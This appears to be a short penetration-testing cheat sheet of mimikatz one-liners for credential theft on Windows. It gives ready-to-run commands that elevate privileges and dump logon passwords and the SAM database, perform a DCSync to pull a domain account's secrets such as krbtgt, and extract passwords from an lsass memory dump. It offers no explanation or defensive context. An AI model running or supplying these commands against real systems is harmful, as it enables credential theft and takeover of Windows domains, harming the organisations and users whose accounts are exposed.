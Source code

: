 # mimikatz

% mimikatz, passwords

## mimikatz onliner
```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
```
mimikatz "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
```
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
